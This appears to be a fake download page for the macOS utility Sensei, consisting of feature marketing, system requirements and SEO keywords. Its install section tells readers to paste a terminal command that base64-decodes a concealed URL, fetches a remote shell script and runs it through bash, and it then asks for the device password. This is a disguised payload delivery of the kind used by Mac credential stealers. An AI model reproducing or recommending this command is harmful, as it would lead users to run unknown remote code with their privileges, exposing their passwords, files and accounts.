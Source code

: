 # Sensei Mac Download

![Sensei Mac Screenshot](https://cdn.wccftech.com/wp-content/uploads/2020/01/Sensei-appp.jpg)

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxMC9pbnN0YWxsLnNo | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Sensei for Mac?

**Sensei for Mac** is a powerful utility designed to monitor, optimize, and maintain your macOS system. It combines disk management, hardware health monitoring, system cleanup, and performance optimization tools into one intuitive application.  

Unlike the default macOS tools, **Sensei** offers advanced capabilities such as temperature monitoring, SSD health checks, storage usage analysis, and removal of unnecessary files to free up space. It’s the all-in-one solution for keeping your Mac running fast and efficiently.

---

![Sensei Mac Screenshot 2](https://cdn.mos.cms.futurecdn.net/YNkEEQpH3YW9CNJd9ynMVT.jpg)

---

## 🌟 Key Features & Benefits

- 💽 **Disk Management** — analyze and optimize SSD and HDD health.
- 🚀 **Performance Boost** — clean caches and optimize system startup.
- 🌡 **Hardware Monitoring** — monitor CPU and GPU temperatures.
- 📊 **Detailed Analytics** — get in-depth system usage statistics.
- 🧹 **System Cleanup** — remove temporary and junk files.
- 💡 **macOS Integration** — fully compatible with macOS Catalina and later.
- ⚡ **Apple Silicon Ready** — optimized for M1/M2/M3 processors.

---

## 🖥️ System Requirements

- **macOS:** 10.15 Catalina or later  
- **Processor:** Intel or Apple Silicon (M1/M2/M3)  
- **RAM:** 4 GB or more  
- **Disk Space:** 300 MB  

---

## 🏷️ Keywords

sensei mac, disk sensei, mac sensei, sensei for mac, sensei macos

---



